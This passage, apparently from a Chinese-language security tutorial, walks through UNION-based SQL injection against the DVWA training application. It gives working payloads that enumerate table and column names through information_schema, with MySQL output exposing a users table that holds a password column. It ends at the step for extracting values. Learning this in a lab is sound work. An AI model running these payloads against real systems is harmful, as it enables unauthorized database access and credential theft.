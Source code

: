 1. `TABLE_SCHEMA：数据库名`
2. `TABLE_NAME`：表名
3. `COLUMN_NAME`：字段名

---

1️⃣ 判断列数、显示位

2️⃣ 获取目标数据库名

3️⃣ 获取目标数据库的所有表名、字段名、字段中的数据

---

获取目标数据库名

```sql
# 注入 SQL：
1' union select 1, group_concat(table_name) from information_schema.tables where table_schema='dvwa'; #
```
```sql
# 底层 MySQL 执行结果
mysql> select first_name, last_name from users where user_id='1' union select 1, group_concat(table_name) from information_schema.tables where table_schema='dvwa';
+------------+---------------------------+
| first_name | last_name                 |
+------------+---------------------------+
| admin      | admin                     |
| 1          | guestbook,k_account,users |
+------------+---------------------------+
2 rows in set (0.02 sec)
```

> `GROUP_CONCAT()`   函数将组中的字符串连接成为单个字符串。

获取字段名

```sql
# 注入 SQL
1' union select 1, group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'; #
```
```sql
# 底层 MySQL 执行结果
mysql> select first_name, last_name from users where user_id='1' union select 1, group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| admin      | admin                                                                     |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)
```

获取值
